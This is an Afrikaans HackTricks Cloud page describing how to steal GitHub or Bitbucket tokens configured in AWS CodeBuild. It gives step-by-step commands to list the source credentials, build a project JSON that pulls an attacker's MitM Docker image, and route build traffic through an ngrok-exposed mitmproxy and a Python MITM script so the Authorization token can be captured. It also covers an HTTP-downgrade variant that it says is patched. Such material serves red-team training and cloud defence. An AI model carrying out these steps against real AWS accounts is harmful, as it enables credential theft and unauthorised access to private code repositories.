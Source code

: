 # AWS Codebuild - Token Uitlekking

<details>

<summary><strong>Leer AWS hakwerk vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Herstel Github/Bitbucket Geconfigureerde Tokens

Eerstens, kontroleer of daar enige bronkredensiale geconfigureer is wat jy kan uitlek:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Indien jy vind dat die verifikasie na byvoorbeeld Github ingestel is in die rekening, kan jy daardie toegang (GH-token of OAuth-token) **uitlek** deur Codebuild te laat **'n spesifieke docker-beeld** gebruik om die projek te bou.

Vir hierdie doel kan jy **'n nuwe Codebuild-projek skep** of die **omgewing** van 'n bestaande een verander om die **Docker-beeld** in te stel.

Die Docker-beeld wat jy kan gebruik is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dit is 'n baie basiese Docker-beeld wat die **omgewingsveranderlikes `https_proxy`**, `http_proxy` en `SSL_CERT_FILE` sal instel. Dit sal jou in staat stel om die meeste van die verkeer van die gasheer aangedui in `https_proxy` en `http_proxy` te onderskep en die SSL-cert te vertrou wat aangedui is in `SSL_CERT_FILE`.

1. **Skep & Laai jou eie Docker MitM-beeld op**
   * Volg die instruksies van die bewaarplek om jou proksi IP-adres in te stel en jou SSL-sertifikaat en **bou die docker-beeld**.
   * **STEL NIE `http_proxy` IN** om nie versoek aan die metadata-eindpunt te onderskep nie.
   * Jy kan **`ngrok`** gebruik soos `ngrok tcp 4444` om die proksi na jou gasheer in te stel.
   * Sodra jy die Docker-beeld gebou het, **laai dit op na 'n openbare bewaarplek** (Dockerhub, ECR...)
2. **Stel die omgewing in**
   * Skep 'n **nuwe Codebuild-projek** of **verander** die omgewing van 'n bestaande een.
   * Stel die projek in om die **voorheen gegenereerde Docker-beeld** te gebruik

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Stel die MitM-proksi in jou gasheer in**

   * Soos aangedui in die **Github-bewaarplek** kan jy iets soos gebruik:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy weergawe wat gebruik is, was 9.0.1**, daar is gerapporteer dat dit dalk nie met weergawe 10 sal werk nie.
{% endhint %}

4. **Voer die bou uit & vang die geloofsbriewe**

*   Jy kan die token sien in die **Authorization** kop:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dit kan ook gedoen word vanaf die aws cli met iets soos

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Hierdie kwesbaarheid is deur AWS reggestel op 'n punt in die week van die 20ste Februarie 2023 (Ek dink op Vrydag). So 'n aanvaller kan dit nie meer misbruik nie :)**
{% endhint %}

'n Aanvaller met **verhoogde regte in 'n CodeBuild kan die Github/Bitbucket-token** wat ingestel is lek, of as regte via OAuth ingestel is, die **tydelike OAuth-token wat gebruik word om toegang tot die kode te verkry**.

* 'n Aanvaller kan die omgewingsveranderlikes **http\_proxy** en **https\_proxy** by die CodeBuild-projek voeg wat na sy masjien wys (byvoorbeeld `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Verander dan die URL van die github-opgaar na HTTP in plaas van HTTPS, byvoorbeeld: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Voer dan die basiese voorbeeld uit [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) op die poort wat deur die omgewingsveranderlikes (http\_proxy en https\_proxy) aangedui word.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Uiteindelik, kliek op **Bou die projek**, die **geloofsbriewe** sal in **teksvorm** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nou sal 'n aanvaller in staat wees om die token van sy masjien te gebruik, al die voorregte wat dit het te lys en makliker (mis)bruik as om die CodeBuild-diens direk te gebruik.
{% endhint %}

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
